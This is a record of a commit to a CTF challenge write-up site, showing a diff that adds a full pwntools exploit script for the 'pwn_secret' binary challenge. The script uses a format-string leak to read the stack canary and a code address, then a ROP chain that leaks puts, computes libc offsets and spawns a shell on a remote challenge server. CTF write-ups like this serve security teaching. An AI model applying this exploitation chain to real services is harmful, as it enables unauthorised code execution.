

Before and after one commit to andrei2308/ctf-challenges, an MkDocs documentation site: the page built from docs/cyberedu/pwn/secret/description.md, in a window 1280 px wide and 1400 px high, scrolled down 1834 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2357 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add exploit script for pwn_secret challenge
Added a complete exploit script for the pwn_secret challenge, detailing the process of leaking memory addresses and executing system commands.

````diff
--- a/docs/cyberedu/pwn/secret/description.md
+++ b/docs/cyberedu/pwn/secret/description.md
@@ -92,3 +92,96 @@
 Here is the final solution:
 
 ```python
+from pwn import *
+
+# p = process('./pwn_secret')
+p = remote('34.40.105.109',30865)
+
+
+binary_path = './pwn_secret'
+elf = ELF(binary_path)
+context.binary = elf
+context.log_level = 'debug'
+context.arch = 'amd64'
+
+p.recvuntil(b'Name: ')
+p.sendline(b'%15$p|%21$p') # offset 15 is the canary and offset 19 is the entry addr
+
+p.recvuntil(b'Hillo ')
+leaks = p.recvline().strip().decode().split('|')
+
+canary = int(leaks[0], 16)
+code_leak = int(leaks[1], 16)
+log.success(f"Canary: {hex(canary)}")
+log.success(f"Code leak : {hex(code_leak)}")
+
+elf.address = code_leak - 0xb6d # main address
+log.success(f"binary base: {hex(elf.address)}")
+
+# 0x0000000000000889 : ret
+# 0x0000000000000ca3 : pop rdi ; ret
+
+ret_gadget = 0x0000000000000889
+pop_rdi_ret_gadget = 0x0000000000000ca3
+
+ret_addr = elf.address + ret_gadget
+pop_rdi_ret = elf.address + pop_rdi_ret_gadget
+
+puts_got = p64(elf.got['puts'])
+puts_plt = p64(elf.plt['puts'])
+start_addr = p64(elf.symbols['_start'])
+
+payload = b'a' * 136 # reach canary
+payload += p64(canary) # keep intact
+payload += b'b' * 8 # fill rbp
+# jumping jack flash
+payload += p64(pop_rdi_ret)
+payload += puts_got
+payload += puts_plt
+payload += start_addr
+
+p.recvuntil(b'Phrase: ')
+p.sendline(payload)
+
+p.recvuntil(b'Entered strings are not same!\n')
+
+try:
+    leak_data = p.recvline().strip()
+    # Sometimes puts outputs 6 bytes, sometimes padded.
+    # We unpack it carefully.
+    leak_puts = u64(leak_data.ljust(8, b'\x00'))
+    log.success(f"Leaked puts@GLIBC: {hex(leak_puts)}")
+except:
+    log.error("Failed to receive leak. Check offsets.")
+
+# now let's fuzz the libc version, we will try different offsets based on the puts termination e50, searching in libc database
+
+puts_offset = 0x6f690
+
+libc_base_address = leak_puts - puts_offset
+
+system_offset = 0x45390
+str_bin_sh_offset = 0x18cd57
+
+system_address = libc_base_address + system_offset
+str_bin_sh_address = libc_base_address + str_bin_sh_offset
+
+p.recvuntil(b'Name: ')
+p.sendline("you are pwned!")
+
+p.recvuntil(b'Hillo ')
+p.recvuntil(b'Phrase: ')
+
+payload = b'a' * 136 # reach canary again
+payload += p64(canary)
+payload += b'b' * 8 # rbp
+# jump again, but this time in libc
+payload += p64(ret_addr)
+payload += p64(pop_rdi_ret)
+payload += p64(str_bin_sh_address)
+payload += p64(system_address)
+
+p.sendline(payload)
+
+p.interactive()
+```
````
